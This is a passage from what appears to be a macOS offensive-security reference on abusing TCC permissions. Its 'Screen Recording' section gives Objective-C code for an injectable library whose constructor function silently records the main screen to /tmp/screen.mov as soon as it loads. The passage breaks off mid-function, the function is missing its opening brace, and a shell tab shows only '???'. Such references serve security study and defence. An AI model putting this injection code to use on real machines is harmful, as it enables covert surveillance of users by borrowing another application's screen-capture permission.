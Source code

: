 {% tab title="Shell" %}
Get access to the location

```
???
```
{% endtab %}
{% endtabs %}

### Screen Recording

* **Entitlement**: None
* **TCC**: `kTCCServiceScreenCapture`

{% tabs %}
{% tab title="ObjectiveC" %}
Record the main screen for 5s in `/tmp/screen.mov`

```objectivec
#import <Foundation/Foundation.h>
#import <AVFoundation/AVFoundation.h>

// clang -framework Foundation -framework AVFoundation -framework CoreVideo -framework CoreMedia -framework CoreGraphics -o ScreenCapture ScreenCapture.m

@interface MyRecordingDelegate : NSObject <AVCaptureFileOutputRecordingDelegate>
@end

@implementation MyRecordingDelegate

- (void)captureOutput:(AVCaptureFileOutput *)output 
    didFinishRecordingToOutputFileAtURL:(NSURL *)outputFileURL 
    fromConnections:(NSArray *)connections 
    error:(NSError *)error {
    if (error) {
        NSLog(@"Recording error: %@", error);
    } else {
        NSLog(@"Recording finished successfully.");
    }
    exit(0);
}

@end

__attribute__((constructor))
void myconstructor(int argc, const char **argv)
    freopen("/tmp/logs.txt", "w", stderr); // Redirect stderr to /tmp/logs.txt
    AVCaptureSession *captureSession = [[AVCaptureSession alloc] init];
    AVCaptureScreenInput *screenInput = [[AVCaptureScreenInput alloc] initWithDisplayID:CGMainDisplayID()];
    if ([captureSession canAddInput:screenInput]) {
        [captureSession addInput:screenInput];
    }

    AVCaptureMovieFileOutput *fileOutput = [[AVCaptureMovieFileOutput alloc] init];
    if ([captureSession canAddOutput:fileOutput]) {
        [captureSession addOutput:fileOutput];
    }

    [captureSession startRunning];

    MyRecordingDelegate *delegate = [[MyRecordingDelegate alloc] init];
    [fileOutput startRecordingToOutputFileURL:[NSURL fileURLWithPath:@"/tmp/screen.mov"] recordingDelegate:delegate];

    // Run the loop for 5 seconds to capture
```